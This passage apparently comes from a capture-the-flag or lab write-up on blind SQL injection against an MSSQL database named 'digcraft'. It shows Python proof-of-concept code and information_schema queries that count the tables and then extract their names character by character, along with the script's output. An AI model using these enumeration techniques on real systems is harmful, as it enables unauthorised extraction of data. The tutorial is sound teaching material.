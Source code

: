 Running the script once again we should get the name of the database.

```shell
python .\poc.py
digcraft

```

## Enumerating Table Names

Now we know we are executing queries in the `digcraft` database. Next, let's figure out what tables are available. First, we need to dump the number of tables. The query we need to run looks like this:

```sql
SELECT COUNT(*) FROM information_schema.tables WHERE TABLE_CATALOG='digcraft';

```

We can get this value with our script like this:

```python
num_tables = dumpNumber("SELECT COUNT(*) FROM information_schema.tables WHERE TABLE_CATALOG='digcraft'")
print(num_tables)

```

The answer should be `2`.

```shell
python .\poc.py
2

```

Let's get the length of each table, and then dump the name. This query will look pretty ugly because MSSQL doesn't have `OFFSET/LIMIT` like MySQL for example. Here we are dumping the `length` of one `table_name`, ordering the results by `table_name`, offset by 0 rows. We set the offset to `1` to dump the second table.

```sql
select LEN(table_name) from information_schema.tables where table_catalog='digcraft' order by table_name offset 0 rows fetch next 1 rows only;

```

Let's add a loop to our script (don't forget to comment out other queries to save time). We'll dump the length of the `i^th` table's name and then their string value one after another.

```python
for i in range(num_tables):
    table_name_length = dumpNumber(f"select LEN(table_name) from information_schema.tables where table_catalog='digcraft' order by table_name offset {i} rows fetch next 1 rows only")
    print(table_name_length)
    table_name = dumpString(f"select table_name from information_schema.tables where table_catalog='digcraft' order by table_name offset {i} rows fetch next 1 rows only", table_name_length)
    print(table_name)

```
